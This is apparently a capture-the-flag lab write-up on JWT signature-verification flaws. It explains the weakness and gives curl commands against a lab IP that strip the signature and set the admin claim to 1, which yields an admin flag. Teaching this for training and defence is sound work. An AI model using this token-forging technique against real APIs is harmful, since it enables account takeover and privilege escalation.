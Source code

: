 ***

The second common mistake with JWTs is not correctly verifying the signature. If the signature isn't correctly verified, a threat actor may be able to forge a valid JWT token to gain access to another user's account. Let's examine the common signature verification issues.

Not Verifying the Signature

The first issue with signature validation is when there is no signature validation. If the server does not verify the signature of the JWT, then it is possible to modify the claims in the JWT to whatever you prefer them to be. While it is uncommon to find APIs where no signature validation is performed, signature validation may have been omitted from a single endpoint within the API. Depending on the sensitivity of the endpoint, this can have a significant business impact.

**Practical Example 2**

Let's authenticate to the API:

```json
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.131.92/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}
```

Once authenticated, let's verify our user:

```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' "http://10.10.131.92/api/v1.0/example2?username=user"

{
  "message": "Welcome user, you are not an admin"
}
```

However, let's try to verify our user without the signature, remove the third part of the JWT (leaving only the dot) and make the request again. You will see that the verification still works! This means that the signature is not being verified. Modify the admin claim in the payload to be `1` and try to verify as the admin user to retrieve your flag.

![](Pasted%20image%2020250503151554.png)

```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.QDbJj7L9iz9m8bWmiN3_Ujt7Q8Gm8VNlMW0fgqu0mdc' "http://10.10.131.92/api/v1.0/example2?username=admin"

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

